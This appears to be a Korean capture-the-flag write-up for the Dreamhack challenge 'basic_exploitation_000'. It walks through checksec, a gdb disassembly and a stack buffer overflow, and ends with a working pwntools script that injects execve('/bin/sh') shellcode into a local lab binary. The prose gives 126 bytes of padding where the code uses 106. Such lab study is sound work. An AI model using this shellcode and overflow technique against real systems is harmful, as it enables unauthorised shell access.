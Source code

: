 ```yaml
---
title: basic_exploitation_000
author: hwang
date: 2024-05-12 17:43:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_exploitation_000]     # TAG names should always be lowercase
---
```


## Description
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Environment
```text
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

## Solution
먼저, basic_exploitation_000에 적용된 보안 기법을 확인하였다.
```bash
$ checksec basic_exploitation_000
```
결과는 위의 Environment와 같다. x86 아키텍쳐에서 작동하고, canary나 NX, ASLR등이 적용되어 있지 않다.

이후, 이 프로그램의 스택 프레임을 확인하기 위해, 어셈블리어를 분석하였다. pwndbg을 이용하여 디버깅을 하였다.
```bash
$ sudo gdb -q basic_exploitation_000

pwndbg> disassemble main
```
main함수를 disassemble한 결과는 다음과 같다.
```text
Dump of assembler code for function main:
   0x080485d9 <+0>:	push   ebp
   0x080485da <+1>:	mov    ebp,esp
   0x080485dc <+3>:	add    esp,0xffffff80
   0x080485df <+6>:	call   0x8048592 <initialize>
   0x080485e4 <+11>:	lea    eax,[ebp-0x80]
   0x080485e7 <+14>:	push   eax
   0x080485e8 <+15>:	push   0x8048699 //"buf = (%p)\n"
   0x080485ed <+20>:	call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:	add    esp,0x8
   0x080485f5 <+28>:	lea    eax,[ebp-0x80]
   0x080485f8 <+31>:	push   eax
   0x080485f9 <+32>:	push   0x80486a5 //"%141s"
   0x080485fe <+37>:	call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:	add    esp,0x8
   0x08048606 <+45>:	mov    eax,0x0
   0x0804860b <+50>:	leave  
   0x0804860c <+51>:	ret    
End of assembler dump.
```
어셈블리어를 통해 처음 버퍼의 주소값을 출력하고, 이후 버퍼에 141바이트 만큼 입력받는다. 버퍼의 크기가 128바이트(0x80)이므로, 스택 버퍼 오버플로우 공격을 통해 쉘을 얻을 수 있다. 

ebp레지스터의 크기는 32비트에서 4바이트이므로, scanf를 우회하는 26바이트의 쉘코드에 임의의 문자를 126바이트 입력하고, 이후 버퍼의 주소값을 입력하는 페이로드를 작성하면 쉘코드를 실행시킬 수 있다.

파이썬을 이용하여 exploit 코드를 만들었다.

```python
from pwn import *

p = process('./basic_exploitation_000')

data = p.recvuntil(b'buf = (')
data = int(p.recvn(10), 16)

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

payload = shellcode
payload += b"A"*106
payload += p32(data)


p.sendafter(')',payload)
p.interactive()
```

이후 실행시키면 잘 작동한다.
